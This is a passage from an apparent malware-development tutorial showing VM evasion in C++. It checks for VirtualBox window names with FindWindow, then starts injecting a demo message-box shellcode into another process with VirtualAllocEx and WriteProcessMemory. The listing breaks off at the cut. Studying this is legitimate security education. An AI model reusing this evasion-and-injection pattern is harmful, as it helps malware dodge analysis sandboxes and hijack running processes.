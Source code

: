 
As you can see, everything is work perfectly :)    

### anti-VM   

Another example of using this function is VM "evasion". The fact that some windows' names are only present in virtual environment and not is usual host OS.    
Let's look at an example:    

```cpp
/*
 * hack.cpp - VM evasion via FindWindow. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/03/08/malware-injection-17.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char my_payload[] =

  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {

  HANDLE ph;
  HANDLE rt;
  DWORD pid;

  // find a window with certain class name
  HWND hcl = FindWindow((LPCSTR) L"VBoxTrayToolWndClass", NULL);
  HWND hw = FindWindow(NULL, (LPCSTR) L"VBoxTrayToolWnd");
  if (hcl || hw) {
    pid = atoi(argv[1]);
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

    LPVOID rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(ph, rb, my_payload, 
    sizeof(my_payload), NULL);
```